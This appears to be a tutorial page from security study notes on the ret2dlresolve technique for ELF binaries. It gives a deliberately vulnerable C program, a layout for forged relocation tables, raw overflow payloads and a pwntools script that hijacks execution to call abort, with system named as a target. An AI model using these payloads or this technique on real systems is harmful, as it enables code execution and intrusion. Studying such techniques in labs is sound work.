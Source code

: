 # Introduction
This is a highly sophisticated attack which leverages the way dynamic library functions are resolved at runtime in order to resolve an arbitrary procedure and invoke it, bypassing ASLR and requiring no leaks.

To understand the following content, you must know a lot about [dynamic linking](../../../Reverse%20Engineering/Binary%20Formats/ELF/Dynamic%20Linking.md) with ELF files.

# Theory
It is possible to use `_dl_resolve` to call any external function by creating a fake relocation table, symbol table, string table, and GOT. `_dl_resolve` performs no upper boundary checks on the relocation argument, which means that we can make it arbitrarily large and thus point it to our fake relocation table. From there, we can do the same with the rest of the offsets. It does, however, check a few other things which we will need to work around.

Because of the checks that `_dl_resolve` performs, the `r_info` must be divisible by 0x18. The distance between the real symbol table and our fake one must be divisible by 0x18 and fit in 32 bits after this division. This practically prevents us from using the stack on 64-bit systems to store our fake tables and we will need to utilise the `.bss` section, which is closer to the real symbol table in the executable. Additionally, `r_info` must end in 0x7.

For the sake of simplicity, all of the fake tables will only contain one entry. Once we have the fake symbol table set up, we need to set `st_other` to 0 and `st_name` to the distance between the real string table and our fake one, which can in this case be a single null-terminated string. Next, `r_info` must be populated with `(( RealToFakeSymbolTableOffset / 0x18 ) << 32 ) | 0x7`, where `RealToFakeSymbolTableOffset` is the 0x18 aligned distance between our fake and real symbol tables. Do not worry about all the bit-wise operations - these are taken care of by a few macros in `_dl_resolve`. `r_offset` on the other hand, must contain the distance between our fake global offset table and the ELF header.

The relocation argument should store the offset between the start of the real relocation table and the beginning of the fake relocation table divided by the size of one relocation entry and should be put at the top of the stack. Consequently, if gaining code execution through a stack buffer overflow, the relocation argument should follow the malicious return address.

# Manual exploitation
```cpp
#include <stdio.h>
#include <stdlib.h>

char message[128];

void SendMessage()
{
	char sender[20];
	
	printf("Enter the message: \n");
	fgets(message, 128, stdin);
	
	printf("Enter the sender name: \n");
	fgets(sender, 0x40, stdin);
}

int main()
{
	SendMessage();		
	printf("Message sent!");
	return 0;
	
}
```

Manually performing this exploit is extremely cumbersome, so in addition to the manual exploitation, I will also show you a neat module that pwntools contains for this exact purpose. Anyway, the fake tables should be set in the following way:

Relocation argument:
- `reloc_arg = (FakeRelocationTable - RealRelocationTable) / sizeof(Relocation Entry)`

 - must be divisible by the size of the relocation entry:
	 - `Elf32_Rel` : 8 bytes
	 - `Elf32_Rela`: 12 bytes
	 - `Elf64_Rel`: 16 bytes
	 - `Elf64_Rela`: 24 bytes

Fake relocation table:
- `r_offset = FakeGOT - ElfHeader`
- `[+0x8] r_info = (( (FakeSymbolTable - RealSymbolTable) / 0x18 ) << 32 ) | 0x7`
	- the distance between the fake and the real symbol table must be divisible by 0x18, so padding might be required
- `[+0x10] r_addend = 0 (doesn't matter)`

Fake symbol table:
- `[+0x18] st_name = FakeStringTable - RealStringTable`
- `[+0x20] st_info = 0 (doesn't matter)`
- `[+0x21] st_other = 0`

Fake string table:
- `[+0x22] function name = system\x00 (or any other function)`

The above offsets are from the beginning of the fake relocation table and are suited to x64. You will have to change them for x86 based on the size of the struct fields.

For any arguments you want to pass to the function, you will either need to use shellcode in your initial payload buffer or utilise ROP.

Consequently, the payload for the `message` is
`"\x00\x00\x00\x00\x00\x00\x00\x00\x99\x40\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x88\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\xda\x3b\x00\x00\x00\x00\x00\x00\x00\x00abort\x00"`

The actual buffer that will be overflowed is the `sender` buffer the payload for it looks like this:
`"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x30\x50\x55\x55\x55\x55\x00\x00\x6d\x02\x00\x00\x00\x00\x00\x00"`
The last bytes are the value of the relocation argument and the ones before are the address of PLT0.

Indeed, running this exploit results in the programme's abortion through the `abort` function (you can check by the exit code).
```python
from pwn import *

program = process("./dl_resolve")

print(program.recvlineS())
program.sendline(b"\x00\x00\x00\x00\x00\x00\x00\x00\x99\x40\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x88\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\xda\x3b\x00\x00\x00\x00\x00\x00\x00\x00abort\x00")

print(program.recvlineS())
program.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x30\x50\x55\x55\x55\x55\x00\x00\x6d\x02\x00\x00\x00\x00\x00\x00")

program.interactive()
```

![](Resources/Images/RDLR_manual.png)

The `abort` procedure takes no arguments which made manual exploitation bearable, however, when you want to invoke a function with parameters, such as `system`, you will need to either execute additional shellcode before jumping to PLT0, or build a ROP chain. If you value your life, never exploit this manually.

## Exploiting with pwntools
`pwntools` has an awesome module for performing this exploit.

